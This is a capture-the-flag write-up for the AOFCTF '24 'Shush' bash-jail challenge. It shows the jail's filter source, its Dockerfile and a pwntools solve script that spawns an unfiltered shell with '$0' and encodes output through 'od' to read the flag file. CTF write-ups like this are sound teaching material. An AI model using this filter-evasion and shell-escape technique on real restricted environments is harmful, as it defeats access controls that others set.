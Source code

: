 ```yaml
---
title: AOFCTF '24 - Misc - Shush
date: '2024-04-29'
tags: ['misc', 'aofctf', 'bash-jail', 'blind', '$0']
draft: false
summary: Using $0 to spawn a shell, then using od to convert output to decimal, then parsing the output.
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-21.png)

## Solution

This was challenge was an amalgam of challs from PicoCTF 2024 and AmateursCTF 2024. However, in this case, the output had a banlist. Meaning that you cannot output characters. Looking at the source code that was provided:

```py:shush
#!/usr/bin/env python3
from subprocess import Popen, PIPE, STDOUT

INVALID_CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]()._,<>|'
MAX_CHARS_ALLOWED = 5
OUTPUT_BAN = ["CTF", "FLAG", "root", "ctf-player"]
PROMPT = "sh[ush]$ "

while True:
    try:
        __input = input(PROMPT)
        if any(c in INVALID_CHARS for c in __input):
            raise Exception('INVALID_CHARS_ERROR: Command contains invalid characters')

        if len(__input) >= MAX_CHARS_ALLOWED:
            raise Exception(f"LENGTH_ERROR: Command is longer than {MAX_CHARS_ALLOWED} characters")

        p = Popen(["/bin/sh", "-c", __input], stdout=PIPE, stderr=STDOUT)
        output = p.stdout.read().decode('utf-8')

        if any(c in INVALID_CHARS for c in output):
            raise Exception('INVALID_CHARS_ERROR: Command output contains invalid characters')

        if any(banned.lower() in output.lower() for banned in OUTPUT_BAN):
            raise Exception('OUTPUT_ERROR: Command output contains banned characters')

        print(output)
    except Exception as E:
        print(E)
```

I also provided the Dockerfile

```Dockerfile
FROM theflash2k/pwn-chal:py38

ENV CHAL_NAME=shush
COPY ${CHAL_NAME} .
COPY flag.txt /

# Prevent unintended solutions:
ENV ENV=/etc/profile.d/aliases.sh
RUN rm -f /usr/local/bin/pip /usr/local/bin/pip3 && \
    chown root:root /var/tmp /tmp /run/lock /dev/shm /dev/mqueue /home/ctf-player && \
    chmod 770 /var/tmp /tmp /run/lock /dev/shm /dev/mqueue /home/ctf-player && \
    echo "alias exec=asdasdasdasd" > /etc/profile.d/aliases.sh && \
    echo "alias nohup=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    echo "alias alias=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    echo "alias env=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    chmod 444 /etc/profile.d/aliases.sh

RUN mv /flag.txt /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1).txt
EXPOSE 8000
```

We can see that flag was being stored at `/` with a random name and a lot of unintended solutions were blocked (but I believe there still were many).

Let's go over my solution. My solution utilized `$0` to spawn a `/bin/sh` instance. This instance didn't have input filtering, however the output filter would match against: `INVALID_CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\':{}[]()._,<>|'`.

What I came up with was utilizing `od` to convert the output to only numbers, and each number would be parseable in my python source. Manually trying this:

```bash
$ ./shush
sh[ush]$ $0
echo "test" | od -An -tu1
exit
 116 101 115 116  10
```

Now, if we were to decode the output:

![alt text](/static/writeups/aofctf-24/image-22.png)

Perfect, so we know we can get the flag, there are two approches: `cat /flag*` or getting a proper shell.

Since I love spawning shells, I'm going for the latter. My final solve script looked like:

```py
#!/usr/bin/env python3

from pwn import *

io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process("./shush")

def decode(data: str):
    data = list(filter(lambda x: x != "", data.split("-")))
    return "".join([chr(int(x)) for x in data])

def run(cmd: str):
    BASE_CMD = "{cmd} | od -An -tu1 | tr ' ' '-'"
    io.sendlineafter(b"$ ", b"$0")
    cmd = BASE_CMD.format(cmd=cmd)
    print(f"Running: {cmd}")
    io.sendline(cmd.encode())
    io.sendline(b"exit")

    resp = io.recvuntil(b"sh[ush]")[:-9].decode().split("\n")
    output = ""
    for line in resp:
        line = decode(line)
        output += line

    io.sendline(b"exit") # so that we get the "sh[ush]" prompt:
    io.recvline()
    return output

output = run("ls /").split("\n")

idx = 0
for i, line in enumerate(output):
    if line.startswith("flag"):
        idx = i
        break

flag = run(f"cat /{output[idx]}")
print(f"Flag: {flag}")

io.interactive()
```

Now, what I did, wrapped the entire functionality inside the `run` function, and we can just give it any command, it'll run for us, so even if we did `cat /flag*`, it would still work.
